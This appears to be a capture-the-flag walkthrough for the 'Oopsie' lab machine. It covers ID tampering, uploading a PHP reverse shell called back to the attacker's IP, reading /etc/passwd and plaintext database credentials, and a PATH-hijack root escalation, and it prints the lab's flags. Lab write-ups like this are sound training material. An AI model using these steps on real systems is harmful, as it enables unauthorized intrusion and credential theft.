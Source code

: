 ![oopsie.jpg](/assets/Tier-2/Oopsie/oopsie.jpg)

1. Send an ICMP echo request to machine's IP address..
```bash
┌──(kali㉿kali)-[~]
└─$ ping -c 2 10.129.87.40
```

2. Scan open ports with **nmap**.
```bash
┌──(root㉿kali)-[/home/kali]
└─| nmap -p- --open -vv -sS --min-rate 5000 -Pn -n 10.129.107.26
```

**Output**
```bash
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```


3. View the web page
![oopsie-web.PNG](/assets/Tier-2/Oopsie/oopsie-web.PNG)


4. With **BurpSuite** view petitions of web page and look anothers directorys

![oopsie-burp.PNG](/assets/Tier-2/Oopsie/oopsie-burp.PNG)


5. Access to new directory
![oopsie-login.PNG](/assets/Tier-2/Oopsie/oopsie-login.PNG)


6. Access as **Guest** and in **clients** look the url
![oopsie-guest.PNG](/assets/Tier-2/Oopsie/oopsie-guest.PNG)


7. We can edit the **id**, if you put **1** you can access as **administrator**.
![oopsie-admin.PNG](/assets/Tier-2/Oopsie/oopsie-admin.PNG)


8. For keep session as **administrator** edit the cookie
![oopsie-cookie.PNG](/assets/Tier-2/Oopsie/oopsie-cookie.PNG)
> With this you can keep session in any part of web page.

9. In **uploads** we load a php reverse shell
    
![oopsie-upload.PNG](/assets/Tier-2/Oopsie/oopsie-upload.PNG)

First, go to `/usr/share/webshells/php/php-reverse-shell.php`copy this file and put in directory's machine.
Next, edit the file and put in `$IP` the IP address of tun0 and in `$PORT` put 4444

![oopsie-php.PNG](/assets/Tier-2/Oopsie/oopsie-php.PNG)

Finally, upload the file.


10.  Use **gobuster** to discover others directories to access
```bash
┌──(root㉿est)-[/home/kali/Desktop/Oopsie]
└─| gobuster dir -u http://10.129.107.26 -w /usr/share/dirb/wordlists/small.txt 
```

**Output**
```bash
/css                  (Status: 301) [Size: 312] [--> http://10.129.107.26/css/]
/images               (Status: 301) [Size: 315] [--> http://10.129.107.26/images/]
/js                   (Status: 301) [Size: 311] [--> http://10.129.107.26/js/]    
/uploads              (Status: 301) [Size: 316] [--> http://10.129.107.26/uploads/]
```

11. With **nc** listen on port 4444.
```bash
┌──(root㉿est)-[/home/kali/Desktop/Oopsie]
└─| nc -lvnp 4444 
```

12. Execute the php-reverse-shell.php in url

![oopsie-reverse-url.PNG](/assets/Tier-2/Oopsie/oopsie-reverse-url.PNG)

13. Run this
```bash
$ python3 -c "import pty; pty.spawn('/bin/bash')"
```

14. Look `/etc/passwd`
```bash
www-data@oopsie:/$ cat /etc/passwd
```

**Output**
```bash
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
robert:x:1000:1000:robert:/home/robert:/bin/bash
mysql:x:111:114:MySQL Server,,,:/nonexistent:/bin/false
```
> Find important information

15. Acces to robert's directory and find a **user flag**

```bash
www-data@oopsie:/home/robert$ cat user.txt
cat user.txt
f2c74ee8db7983851ab2a96a44eb7981
```

16. Go to `www-data@oopsie:/$ cd /var/www/html`, (In this folder you found a files of web page)
```bash
www-data@oopsie:/var/www/html$ dir
dir
cdn-cgi  css  fonts  images  index.php  js  themes  uploads
```

17. Enter in `cdn-cgi`, next in `login` and cat a **db.php** file.
```bash
www-data@oopsie:/var/www/html/cdn-cgi/login$ cat db.php
cat db.php
<?php
$conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
?>
```

18. With the credentials loggin how robert user
```bash
www-data@oopsie:/var/www/html/cdn-cgi/login$ su robert
su robert
Password: M3g4C0rpUs3r!
```

19. Search more information of **robert**
```bash
robert@oopsie:/var/www/html/cdn-cgi/login$ id
id
uid=1000(robert) gid=1000(robert) groups=1000(robert),1001(bugtracker)
```

20. Try to access a **bugtracker** group
```bash
robert@oopsie:/var/www/html/cdn-cgi/login$ bugtracker
bugtracker

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: /bin/bash
/bin/bash
---------------

cat: /root/reports//bin/bash: No such file or directory
```
For login it execute **cat**, but, if we change the functioning of cat can spawn a `/bin/bash`

21. Change the functionning of **cat**
```bash
robert@oopsie:/var/www/html/cdn-cgi/login$ cd /tmp 
cd /tmp
robert@oopsie:/tmp$ echo '/bin/bash' > cat
echo '/bin/bash' > cat
robert@oopsie:/tmp$ chmod +x cat
chmod +x cat
robert@oopsie:/tmp$ export PATH=/tmp:$PATH
export PATH=/tmp:$PATH
```
Whit this change a cat with other environment variable

22. Try to login in **bugtracker** group and in **Provide Bug ID** put any number
```bash
robert@oopsie:/var/www/html/cdn-cgi/login$ bugtracker
bugtracker

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: 2
---------------
```

**Output**
```bash
root@oopsie:/tmp#
```

23. Now are root
```bash
root@oopsie:/# cd root
cd root
root@oopsie:/root# dir
dir
reports  root.txt
root@oopsie:/root# cat root.txt
cat root.txt
root@oopsie:/root# head root.txt
head root.txt
af13b0bee69f8a877c3faf667f7beacf
```

+ **cat** not read files because alter the functioning, also you can use **head** or **tail**.
